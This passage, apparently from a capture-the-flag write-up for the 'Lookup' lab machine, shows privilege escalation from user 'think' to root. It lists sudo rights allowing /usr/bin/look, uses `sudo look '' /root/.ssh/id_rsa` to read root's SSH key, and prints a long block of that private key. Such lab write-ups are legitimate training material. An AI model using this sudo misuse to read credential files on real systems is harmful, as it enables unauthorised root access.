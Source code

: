 And now we can get the first flag 

![User.txt](/assets/img/CTFs/Lookup/user.jpg)

### Think to root

When we check think's sudo privileges we can see that the only sudo command that they can run is `look`

```console
think@lookup:~$ sudo -l
[sudo] password for think: 
Matching Defaults entries for think on lookup:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User think may run the following commands on lookup:
    (ALL) /usr/bin/look
```

This does not allow us to get a spawn a shell in root, but it does allow us to read files that we should not have access to ([gtfobins](https://gtfobins.github.io/gtfobins/look/#sudo))

When we are looking for interesting files we find an `id_rsa` key in `/root/.ssh` 

```console
think@lookup:~$ LFILE=/root/.ssh/id_rsa
think@lookup:~$ sudo look '' "$LFILE"
-----BEGIN OPENSSH PRIVATE KEY-----
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
```